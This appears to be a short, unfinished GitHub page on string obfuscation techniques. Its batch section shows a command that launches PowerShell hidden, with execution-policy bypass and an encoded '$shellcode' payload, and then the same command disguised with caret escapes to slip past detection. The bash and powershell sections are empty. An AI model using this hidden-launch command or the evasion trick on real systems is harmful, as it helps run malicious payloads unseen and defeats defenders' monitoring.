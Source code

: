 <br />

# SIMPLE STRING OBFUSCATION TECNICS


### batch

- string command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`

     The above string can be obfuscated using the **batch escape caracter** ^

- string obfuscated<br />
`cm^d.e^xe /c po^w^er^shel^l.ex^e -n^op -w^i^nd h^idd^en -Ex^e^c B^yp^a^ss -no^n^i -en^c $shellcode`


### bash

### powershell

<br />
